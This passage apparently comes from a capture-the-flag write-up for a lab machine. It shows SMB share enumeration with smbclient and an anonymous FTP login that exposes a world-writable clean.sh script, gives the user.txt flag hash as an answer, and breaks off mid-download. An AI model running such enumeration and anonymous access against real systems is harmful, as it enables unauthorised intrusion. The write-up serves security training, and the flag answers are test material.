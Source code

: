 ...
</code></pre>

<br>
           
> 1.4. <em>There's a share on the user's computer.  What's it called?</em><br><a id='1.4'></a>
>> <code><strong>Pics</strong></code>

<br>
           
<pre><code>root@ip-[Attack_Box]:~/anonymous# smbclient -L 10.10.150.106
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            ANONYMOUS
</code></pre>

<br>
           
> 1.5. <em>user.txt</em><br><a id='1.5'></a>
>> <code><strong>90d6f992585815ff991e68748c414740</strong></code>

<br>

<pre><code>root@ip-[Attack_Box]:~/anonymous# ftp 10.10.150.106
Connected to 10.10.150.106.
220 NamelessOne's FTP Server!
Name (10.10.150.106:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1634 Nov 11 03:39 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.05 secs (1.2484 kB/s)
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
200 PORT command successful. Consider using PASV.